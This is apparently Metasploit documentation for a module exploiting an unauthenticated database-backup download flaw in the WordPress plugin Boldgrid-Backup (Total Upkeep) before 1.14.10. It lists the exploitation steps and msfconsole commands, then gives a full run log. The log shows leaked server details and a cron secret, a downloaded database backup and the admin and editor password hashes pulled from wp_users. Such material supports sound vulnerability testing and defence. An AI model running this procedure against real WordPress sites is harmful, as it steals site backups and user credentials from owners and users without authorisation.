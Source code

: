 ## Vulnerable Application

This module exploits an unauthenticated database backup vulnerability in WordPress plugin
'Boldgrid-Backup' also known as 'Total Upkeep' version < 1.14.10.

Exploitation happens in a few steps:

1. First, `env-info.php` is read to get server information.
1. Next, `restore-info.json` is read to retrieve the last backup file.
1. That backup is then downloaded, and any sql files will be parsed looking for the `wp_users` `INSERT` statement to grab user creds.

A vulnerable version can be downloaded from here:
[Boldgrid Backup (Total Upkeep)](https://downloads.wordpress.org/plugin/boldgrid-backup.1.14.9.zip)

A free account will need to be registered at Boldgrid's site, and a serial key generated and applied.
Once the key is applied, click "Backup Site Now", or create a backup through other mechanisms in the
interface.

## Verification Steps

1. Install the plugin and create a backup
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_total_upkeep_downloader`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get an archive backup.

## Options

## Scenarios

### Boldgrid-Backup (Total Upkeep) 1.14.9 on Wordpress 5.4.4 running on Ubuntu 20.04.

```
resource (total_upkeep.rb)> use auxiliary/scanner/http/wp_total_upkeep_downloader
resource (total_upkeep.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (total_upkeep.rb)> run
[+] 1.1.1.1 - Vulnerable version detected
[*] 1.1.1.1 - Obtaining Server Info
[+] 1.1.1.1 -
  gateway_interface: CGI/1.1
  http_host: 1.1.1.1
  php_sapi_name: apache2handler
  php_uname: Linux wordpress2004 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64
  php_version: 7.4.3
  server_addr: 1.1.1.1
  server_name: 1.1.1.1
  server_protocol: HTTP/1.1
  server_software: Apache/2.4.41 (Ubuntu)
  uid: 33
  username: www-data
[+] 1.1.1.1 - File saved in: /home/h00die/.msf4/loot/20201230163041_default_1.1.1.1_boldgridbackup._165408.txt
[*] 1.1.1.1 - Obtaining Backup List from Cron
200
[+] 1.1.1.1 -
  ABSPATH: /var/www/wordpress/
  archive_key: 0
  cron_secret: ab0d1ce965f799a90bd4f1bd5f3009471eb9e020a15408e3d91256e9cf3e74dd
  filepath: /var/www/wordpress/wp-content/boldgrid_backup_L8VjcGzUexMe/boldgrid-backup-1.1.1.1-ec5c393c-20201230-211323.zip
  siteurl: http://1.1.1.1
  site_title: localhost
  restore_cmd: php -d register_argc_argv="1" -qf "/var/www/wordpress/wp-content/plugins/boldgrid-backup/boldgrid-backup-cron.php" mode=restore siteurl=http%3A%2F%2F1.1.1.1 id=ec5c393c secret=ab0d1ce965f799a90bd4f1bd5f3009471eb9e020a15408e3d91256e9cf3e74dd archive_key=0 archive_filename=boldgrid-backup-1.1.1.1-ec5c393c-20201230-211323.zip site_title=localhost
  timestamp: 1609362824
[+] 1.1.1.1 - File saved in: /home/h00die/.msf4/loot/20201230163041_default_1.1.1.1_boldgridbackup._983176.txt
[*] 1.1.1.1 attempting download of wp-content/boldgrid_backup_L8VjcGzUexMe/boldgrid-backup-1.1.1.1-ec5c393c-20201230-211323.zip
[+] 1.1.1.1 - Database backup (22372663 bytes) saved in: /home/h00die/.msf4/loot/20201230163042_default_1.1.1.1_boldgridbackup._100789.zip
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test001.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test002.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test005.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test006.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test008.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test009.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test010.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test011.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test012.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wordpress_db.20201230-211322.sql
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] 1.1.1.1 - finished processing backup zip
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_total_upkeep_downloader) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      1.1.1.1           admin2  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
      1.1.1.1           editor  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      1.1.1.1           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
```
